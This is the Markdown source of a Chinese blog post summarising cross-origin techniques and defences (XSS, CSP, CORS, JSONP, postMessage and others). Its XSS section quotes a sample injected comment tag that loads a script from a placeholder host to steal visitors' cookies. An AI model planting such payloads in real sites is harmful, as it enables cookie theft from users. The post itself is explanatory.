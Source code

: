 ```yaml
---
title: Cross-origin Summarization
thumbnailImagePosition: right
date: 2017-06-12 11:12:51
thumbnailImage: cross-origin.jpg
coverImage:
tags:
- cross-origin
categories:
---
```

跨域问题总结。
<!--excerpt-->

跨域是一个时常出现在程序员工作当中的问题。前两天正好小组也对该主题进行了一番探讨，在此结合业内大牛的知识分享做一下个人的总结。

<!--toc-->
### XSS
[XSS(跨站脚本攻击)](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)就是很好地利用了script脚本可以跨域的特性来进行恶意攻击。
假如你的站点没有设立预防XSS漏洞的固定方法，那么很有可能存在XSS漏洞，XSS攻击经常发生在一些公共板块，比如留言板、评论区。
1. 比如恶意用户在网站留言区输入以下代码：
>`<script scr="www.xxx.com/xss.js"></script>`

2. 其他用户或管理员访问该页面的时候 `xss.js` 就会自动执行
3. 通过 `xss.js` 可以很方便地获取用户的cookies等敏感信息造成信息泄露。

### 协议层

##### CSP
[CSP(Content Security Policy)](https://content-security-policy.com/)通过http响应头来定义网页自身能够访问哪些域和哪些资源，可减少XSS的发生，*不过不支持全部浏览器是它的硬伤*。以script为例：
> `Content-Security-Policy: script-src 'self' https://example.com`

这么写表示浏览器只会加载并执行本域和`https://example.com`的脚本。同样的，还有`img-src`、`style-src`、`font-src`等等。

##### CORS
[CORS(Cross Origin Resource Sharing)](https://en.wikipedia.org/wiki/Cross-origin_resource_sharing)跨域资源共享定义的是一个网页如何才能访问被同源策略禁止的跨域资源，规定了两者交互的协议和方式。*浏览器版本需要 IE >= 10*。
CORS请求分为简单请求和非简单请求，具体解释请移步[跨域资源共享 CORS 详解](http://www.ruanyifeng.com/blog/2016/04/cors.html)。
其最重要的是在请求头信息中增加`Origin`字段，服务器接收到请求之后判断该Origin是否在许可范围内，如果是则在响应头信息中添加`Access-Control-Allow-Origin`字段，允许跨域请求。
> JSONP只支持GET请求，CORS支持所有类型的HTTP请求。JSONP的优势在于支持老式浏览器，以及可以向不支持CORS的网站请求数据。 ---阮一峰的网络日志

##### WebSocket
WebSocket是一种通信协议，使用ws://（非加密）和wss://（加密）作为协议前缀。该协议不实行同源政策，只要服务器支持，就可以通过它进行跨源通信。其原理同CORS，在请求头中添加`Origin`字段，服务器可根据这个字段来判断该域名是否在白名单内，做出不同的请求响应。

### 跨域方法

##### jsonp
jsonp充分利用了页面上script标签src引用可以跨域的特性，通过返回一个可执行的js文件达到跨域请求的目的。
如果页面引用了jquery，则可以很方便地使用它封装的方法来进行jsonp操作：
```
<script>
	$.getJSON('http://example.com/data.php?callback=?',function(jsonData){
		//do something
	});
</script>
```
jquery会自动生成一个全局函数来替换`callback=?`中的问号，实际上就是起一个临时代理函数的作用。$.getJSON方法会自动判断是否跨域，不跨域的话就调用普通的ajax方法；跨域的话则会以异步加载js文件的形式来调用jsonp的回调函数。

##### 片段识别符
片段标识符（fragment identifier）指的是，URL的#号后面的部分，比如`http://example.com/x.html#fragment`的`#fragment`。如果只是改变片段标识符，页面不会重新刷新。
1. 父窗口可以通过把信息写入子窗口的片段标识符来达到传递信息的目的。
```
var src = originURL + '#' + data;
document.getElementById('iframe').src = src;
```
2. 子窗口通过监听hashchange事件得到通知。
```
window.onhashchange = checkMessage;
function checkMessage() {
  var message = window.location.hash;
  // do something
}
```

##### window.domain
修改document.domain的方法只适用于*同主域不同子域*的框架间的交互，也可以共享cookies，不适用于通过ajax的方法与不同子域的页面交互。只能把document.domain设置成自身或更高一级的父域，且主域必须相同。
比如两个都在`example.com`主域下的页面`a.example.com/a.html`和嵌入在`a.html`的iframe中的`b.example.com/b.html`需要相互通信，直接在`a.html`中使用`document.getElementById('iframe').contentWindow`虽然可以获取到iframe里面的window对象，但是该window对象的属性和方法几乎是不可用的。
需要同时在两个页面指定`document.domain`，即`document.domain = 'example.com'`，这样就能在`a.html`页面获取到`b.html`页面的属性和方法。

##### window.name
浏览器窗口有window.name属性。这个属性的最大特点是，*无论是否同源*，只要在同一个窗口里，前一个网页设置了这个属性，后一个网页可以读取它。例如，`www.example1.com/a.html`需要获取`www.example2.com/b.html`中的`data`，可以这么做：
1. 在`a.html`中创建一个隐藏的iframe，src指向`b.html`；
2. `b.html`通过js设置`window.name = data`；
3. 设置iframe的src指向一个和`a.html`同源的页面`www.example1.com/c.html`
4. `a.html`可以访问同域的ifram页面，获取里面的`data`。

##### window.postMessage
HTML5为了解决跨域问题，引入了一个全新的API：跨文档通信 API(Cross-document messaging)。*浏览器支持 IE >= 8*。方法为`window.postMessage(message,targetOrigin)`，调用postMessage方法的window对象是指要接收消息的那一个window对象，该方法的第一个参数message为要发送的消息，类型只能为字符串；第二个参数targetOrigin用来限定接收消息的那个window对象所在的域，如果不想限定域，可以使用通配符 *  。
比如`www.example1.com/a.html`要向它的内部的iframe子页面`www.example2.com/b.html`发送消息，则可以这样来做：
1. 在`a.html`页面可以这样发送消息：
```
<script>
function onload(){
	var iframe = document.getElementById('iframe');
	var win = iframe.contentWindow;//获取目标window对象
	win.postMessage('你好！','*');//向目标window发送消息
}
</script>
<iframe id="iframe" src="http://www.example2.com/b.html" onload="onload()"></iframe>
```
2. 在`b.html`页面可以这样接收消息：
```
<script>
window.onmessage = function(e){
	e = e || event;
	alert(e.source);//发送消息的窗口
	alert(e.origin);//消息发向的网址
	alert(e.data);//消息内容
}
</script>
```

##### ngnix


### 参考资料

[阮一峰的网络日志](http://www.ruanyifeng.com/blog/2016/04/same-origin-policy.html)
[Jerry Qu's Blog](https://imququ.com/post/content-security-policy-reference.html)
[无双的Bolg](http://www.cnblogs.com/2050/p/3191744.html)
